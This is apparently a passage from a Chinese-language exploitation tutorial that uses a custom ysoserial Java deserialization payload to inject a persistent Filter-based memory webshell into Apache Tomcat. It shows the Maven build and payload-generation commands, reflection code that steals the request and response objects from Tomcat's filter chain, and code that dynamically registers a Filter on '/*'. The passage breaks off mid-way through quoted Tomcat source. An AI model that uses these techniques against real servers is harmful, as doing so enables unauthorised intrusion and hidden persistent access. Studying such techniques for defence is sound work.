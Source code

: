 ysoserial.GeneratePayload\#main：

```java
if (args.length < 1) {
    printUsage();
    System.exit(USAGE_CODE);
}
```

在ysoserial执行maven指令生成jar包

```java
mvn clean -Dmaven.test.skip=true compile assembly:assembly
```

这样，我们就能使用这个新的payload（CommonsCollections11ForTomcatEchoInject）了

```bash
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatEchoInject > ~/tmp/TomcatShellInject.ysoserial
```

### **步骤二**

在使用步骤一生成的序列化数据进行反序列化攻击后，我们就能通过下面这段代码获取到request和response对象了

```java
java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
f.setAccessible(true);
ThreadLocal t = (ThreadLocal) f.get(null);
//不为空则意味着第一次反序列化的准备工作已成功
ServletRequest servletRequest = (ServletRequest) t.get()
```

接着，我们要做的就是动态注册Filter到tomcat中，参考[《动态注册之Servlet+Filter+Listener》](https://www.jianshu.com/p/cbe1c3174d41)，可以看到，其中通过ServletContext对象（实际获取的是ApplicationContext，是ServletContext的实现，因为门面模式的使用，后面需要提取实际实现），实现了动态注册Filter

```java
javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("threedr3am", threedr3am);
filterRegistration.setInitParameter("encoding", "utf-8");
filterRegistration.setAsyncSupported(false);
filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false, new String[]{"/*"});
```

然而实际上并不管用，为什么呢？

```java
private Dynamic addFilter(String filterName, String filterClass, Filter filter) throws IllegalStateException {
    if (filterName != null && !filterName.equals("")) {
      if (!this.context.getState().equals(LifecycleState.STARTING_PREP)) {
        throw new IllegalStateException(sm.getString("applicationContext.addFilter.ise", new Object[]{this.getContextPath()}));
      } else {
        FilterDef filterDef = this.context.findFilterDef(filterName);
        if (filterDef == null) {
          filterDef = new FilterDef();
          filterDef.setFilterName(filterName);
          this.context.addFilterDef(filterDef);
        } else if (filterDef.getFilterName() != null && filterDef.getFilterClass() != null) {
          return null;
        }

        if (filter == null) {
          filterDef.setFilterClass(filterClass);
        } else {
```